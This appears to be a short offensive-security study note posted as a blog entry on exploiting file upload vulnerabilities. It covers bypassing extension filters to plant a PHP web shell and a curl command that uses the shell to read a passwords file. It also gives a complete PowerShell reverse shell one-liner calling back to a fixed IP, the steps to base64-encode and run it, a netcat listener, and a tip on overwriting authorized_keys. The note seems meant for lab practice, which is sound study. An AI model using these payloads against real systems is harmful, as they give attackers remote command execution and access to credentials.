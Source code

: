 ```yaml
---
layout: post
title: File Upload
titledate: 08/30/23
tags: ["infosec","offsec", "web", "exploit", "php", "http"]
---
```


<h4>executable files</h4>

can we upload txt files instead of images?

how about a web shell

/usr/share/webshells

can try phps and php7 extensions or rand case pHP if upload is blocked

<h3>NOTE: when trying to upload shells.. use dir or pwd to get cwd to know where you are</h3>

    $ curl "http://vulnapp.com/home/uploads/simple-backdoor.pHp?cmd=type%20..\..\..\passwords.txt" 

how about a powershell reverse shell 

    $ pwsh

```powershell
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
```powershell
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```powershell
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
```
```powershell
PS> $EncodedText
```
    $ nc -nlvp 443

    $ curl http://192.168.1.200/home/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20BASE64

<h4>non-executable files</h4>

what if we can upload a file but there is no php or asp, and we can't execute the file?

one example of this non executable file upload vulnerabilitiy is overwriting a file like authorized_keys

in burp

![_config.yml]({{ site.baseurl }}/images/web/file_upload.png)

